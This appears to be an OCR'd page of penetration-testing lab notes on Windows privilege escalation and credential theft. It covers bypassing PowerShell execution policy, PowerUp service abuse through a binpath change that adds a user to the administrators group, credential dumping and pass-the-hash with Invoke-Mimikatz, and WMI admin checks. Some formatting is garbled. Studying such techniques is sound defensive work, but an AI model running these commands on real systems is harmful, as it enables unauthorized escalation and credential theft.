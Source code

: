 **Restriction:** Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

## Local Privilege Escalation

**Powerup** can be used to escalate privileges locally within a windows environment.

When a **service** is created whose **executable path** contains ***spaces*** and isn’t enclosed within ***quotes***, leads to a vulnerability known as Unquoted Service Path which allows a user to gain **SYSTEM** privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).

```bash
**Get-ModifiableService** - To find misconfigured services a user or administrator can be 
running so as to exploit it and use it to gain higher level privilege.
Make use of the "Abusefunction" associated with the discovered service to exploit it.

**Invoke-AllChecks -Verbose** runs various security checks to identify potential 
vulnerabilities, misconfigurations, or weaknesses within the target system.

**net localgroup "administrators" -** Check list of users in the administrators group.
**sc.exe qc** "Service Name" -  Gives Information about this service.

Change binary Path of the service to a command that adds a local user to the administrator's
group with **sc.exe config "Service Name" binpath="net localgroup administrators cyberwarfare\employee
 /add."
 
 Restart-Service "ServiceName" -Verbose. Next, check if youre a local admin**

```

## Find WMILocalAdministrator.ps1

**Invoke-AllChecks -Verbose**  script runs several security checks, which might include things like finding clear-text passwords in memory, identifying weak or insecure configurations, testing for privilege escalation paths, and more.

## Credential Dumping

Download and run **Invoke-Mimikatz.ps1** in cmd to load scripts.

**Invoke-Mimikatz -DumpCreds -Verbose -** Dumps all credentials of domain and local users on the system. But you need admin privilege before you can run this commands./code

```bash
**Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:cyberwarfare.corp/hash: 
/run:powershell.exe" - Used the hash of the admin user to execute the powershell command.**
```

## Find-WMILocalAdminAccess.ps1

```bash
This script can be ran to check if we have admin access to the domain controller or 
application server.
. . /Find-WMILocalAdminAccess
Then run Find-WMILocalAdminAccess -Verbose
```
